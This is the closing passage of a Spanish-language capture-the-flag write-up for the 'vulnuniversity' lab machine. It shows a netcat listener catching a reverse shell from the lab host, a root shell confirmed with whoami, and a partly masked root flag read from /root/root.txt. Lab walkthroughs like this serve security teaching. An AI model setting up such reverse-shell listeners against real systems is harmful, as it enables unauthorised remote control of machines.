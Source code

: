 ```bash
❯ rlwrap nc -nlvp 9002
listening on [any] 9002 ...
connect to [x.x.x.x] from (UNKNOWN) [10.10.229.64] 38256
bash: cannot set terminal process group (2029): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# whoami
whoami
root
root@vulnuniversity:/
```

Finalmente, obtenemos acceso como usuario `root` y ya podemos acceder al directorio `/root` y obtener la última flag de esta máquina.

```bash
root@vulnuniversity:/root# cat root.txt
cat root.txt
a58ff8579f0a9270****************
```

¡Happy Hacking!
